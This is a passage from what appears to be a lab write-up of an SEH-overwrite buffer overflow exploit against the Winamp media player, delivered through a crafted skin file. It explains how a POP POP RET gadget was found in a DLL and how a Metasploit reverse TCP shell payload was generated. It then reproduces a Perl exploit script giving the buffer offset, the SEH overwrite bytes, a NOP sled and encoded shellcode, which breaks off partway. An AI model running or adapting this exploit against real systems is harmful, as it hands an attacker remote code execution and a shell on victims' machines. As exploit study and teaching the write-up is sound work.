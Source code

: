 Overwriting the exception handler function pointer in our exploit requires a variation of the gadget `POP; POP; RET`. This is due to the location of the `ESP` pointer at the time of exception handler invocation pointing to the address 3 words (12 bytes) after the start address of the target SEH record. By performing 2 `POP` instructions, we effectively move the `ESP` pointer back to the address following the `NOP; NOP; JMP +4` bytes. The `RET` instruction then directs execution to this sequence, which results in jumping to our NOP sled and ultimately shellcode, which follows the SEH record. To find this gadget, we started by using Windows Debugger to list all shared libraries used by the Winamp program. We selected a handful of DLL libraries that had ASLR, GS, or DEP disabled. We copied these DLL files to the Kali VM and used the tool `msfpescan` to scan each of these DLLs for `pop _; pop _; ret` gadgets. We only considered gadgets where the arguments to the `pop` instructions were `edi` or `esi`. This is because other registers like `eax` and `ebx` can be used to store program variables and therefore prove to be less stable in most cases. Additionally, we filtered out addresses containing consecutive 0 bytes. Upon recording many candidate addresses across DLLs, we found the address 0x7c37259f in NSCRT.dll to satisfy the conditions. Upon testing this address in our exploit across multiple restarts of the victim VM, this proved to be a stable address for this target gadget.

To generate the shellcode used in our attack, we used the `msfconsole` Metasploit program on Kali. The attack involves sending a reverse TCP shell to the local machine. Hence, we used payload type "windows/shell_reverse_tcp". We set the listener host parameter, LHOST, to 127.0.0.1 (i.e. localhost). We also set the listener port parameter, LPORT, to 4444. The encoding scheme used was x86/alpha_mixed. We use encoding because the shell is a reverse TCP shell, and therefore utilizes the networking stack despite the victim process and listener being located the same machine.

### Generating the Malicious Input

To generate the malicious input, we created a Perl script called `exploit.pl` that outputs contents to be written to the file `mcvcore.maki`, which is then used by the Winamp program when attempting to load the "Bento" skin. To generate this file, we simply run `perl exploit.pl > mcvcore.maki` in a shell with Perl installed. The `exploit.pl` script constructs the components of our input discussed in the sections above. The contents of the `exploit.pl` file are shown below.

```perl
#!/usr/bin/perl

$offset = 16576 + 180;

# fills from start of buffer to SEH chain entry
$filler = "A"x$offset;

# fills the pointer to the next SEH record with {NOP; NOP; JMP +4} = 0x9090EB04
# execution returns to the start of these 4 bytes after the POP; POP; RET occurs
# must represent as little endian
$next_seh_ptr_overwrite = "\x04\xEB\x90\x90";

# a pointer to the {POP; POP; RET} gadget
# this is in the NSCRT.dll file
# target address = 0x7c37259f
# must represent as little endian
$seh_handler_ptr_overwrite = "\x9f\x25\x37\x7c";

# nops to pad front of shellcode in the case that the shellcode expands during decoding
$nops = "\x90"x32;

# Shellcode generated by Metasploit
# windows/shell_reverse_tcp - 710 bytes
# https://metasploit.com/
# Encoder: x86/alpha_mixed
# VERBOSE=false, LHOST=127.0.0.1, LPORT=4444, 
# ReverseAllowProxy=false, ReverseListenerThreaded=false, 
# StagerRetryCount=10, StagerRetryWait=5, 
# PrependMigrate=false, EXITFUNC=process, CreateSession=true, 
# AutoVerifySession=true
$shellcode = "\x89\xe2\xdb\xdf\xd9\x72\xf4\x58\x50\x59\x49\x49\x49\x49" .
"\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51" .
"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32" .
```